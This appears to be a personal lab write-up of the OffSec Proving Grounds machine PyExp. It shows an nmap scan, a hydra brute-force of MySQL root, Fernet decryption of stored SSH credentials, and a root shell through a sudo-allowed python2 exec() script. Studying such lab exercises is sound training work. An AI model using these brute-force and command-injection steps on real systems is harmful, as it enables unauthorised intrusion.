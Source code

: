 ```yaml
---
title: OffSec PG - PyExp
date: 2021-12-19 12:00:00 +0500
categories: [Lab Practice Notes, OffSec Proving Grounds]
tags: [oscp,lab,offsec-proving-grounds]
image:
  path: /assets/img/covers/pg-cover.jpeg
  alt: PG Artwork
---
```


## Enumeration

Machine IP &rarr; `192.168.63.118`

Nmap scan &rarr; `nmap -A -Pn -p- -T4 -o nmap.txt 192.168.63.118`

OS Detection &rarr;  `OS: Linux; CPE: cpe:/o:linux:linux_kernel`

| **Port** | **Service** | **Other details (if any)**                                           |
| -------- | ----------- | -------------------------------------------------------------------- |
| 1337     | SSH         | OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)                       |
| 3306     | MySQL       | MySQL 5.5.5-10.3.23-MariaDB-0+deb10u1 &rarr; *Salt: **"(APO{@jw7JP3MgBRU_ |

---

## Exploitation

Mysql can be brute-forced for a password for the user root. Used hydra for this as follows &rarr; `hyda -l root -P rockyou.txt -t 4 mysql://192.168.63.118`. The password was `prettywoman`. With the new password, looking at mysql databases using the following &rarr; `mysql -u root -h 192.168.63.118 -p`.

Looking into the mysql shell, the database is `data` and the table is `fernet`. The table has the following entry &rarr;

cred &rarr; `gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=`

keyy &rarr; `UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=`

The given key and credentials are not any encoding format such as base64, etc. It is in fact fernet. The `cryptography` module in python has support for the fernet encryption. This can be decoded as follows using a python script &rarr;

```python
from cryptography.fernet import Fernet
decryptor = Fernet(b'UJ5_V_b-TWKKyzlErA96f-9aEnQEfdjFbRKt8ULjdV0=')
plaintext = decryptor.decrypt(b'gAAAAABfMbX0bqWJTTdHKUYYG9U5Y6JGCpgEiLqmYIVlWB7t8gvsuayfhLOO_cHnJQF1_ibv14si1MbL7Dgt9Odk8mKHAXLhyHZplax0v02MMzh_z_eI7ys=')
print(plaintext)
```

Running this as `python3 decrypt.py` gives the output as `b'lucy:wJ9`"Lemdv9[FEw-'`. These can be used as the credentials for ssh running on port 1337. Logging in to ssh with the above credentials gives the user `lucy` with a user flag in the home directory.

---

## Privilege Escalation

For privilege escalation, searched set uid binaries using the following find command &rarr; `find / -perm -u=s -type f 2>/dev/null`. This does show `sudo`. Listing commands that can be run by user `lucy` by using `sudo -l`, the python2 binary can be called for the file `/opt/exp.py`.

The file contains the following code &rarr;

```python
uinput = raw_input('how are you?')
exec(uinput)
```

`exec()` in python2 basically runs python inside it. Therefore, running the above with `sudo /usr/bin/python2 /opt/exp.py` and giving input as `import os; os.system(“whoami“);` returns `root`.

Therefore, a shell could even be spawned by changing the command, which gives the root flag in the `/root/` directory.

---
